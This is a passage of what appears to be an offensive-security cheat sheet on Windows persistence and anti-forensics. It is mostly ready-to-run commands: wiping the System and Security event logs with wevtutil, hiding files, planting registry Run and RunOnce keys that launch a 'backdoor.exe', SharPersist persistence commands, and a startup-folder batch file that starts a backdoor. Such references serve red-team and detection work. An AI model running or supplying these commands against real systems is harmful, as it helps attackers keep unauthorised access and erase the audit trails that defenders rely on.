 ### Clear System and Security Logs

```powershell
cmd.exe /c wevtutil.exe cl System
cmd.exe /c wevtutil.exe cl Security
```

## Simple User

Set a file as hidden

```powershell
attrib +h c:\autoexec.bat
```

### Registry HKCU

Create a REG_SZ value in the Run key within HKCU\Software\Microsoft\Windows.

```powershell
Value name:  Backdoor
Value data:  C:\Users\Rasta\AppData\Local\Temp\backdoor.exe
```

Using the command line 

```powershell
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
```

Using SharPersist

```powershell
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add -o env
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "logonscript" -m add
```

### Startup

Create a batch script in the user startup folder.

```powershell
PS C:\> gc C:\Users\Rasta\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\backdoor.bat
start /b C:\Users\Rasta\AppData\Local\Temp\backdoor.exe
```

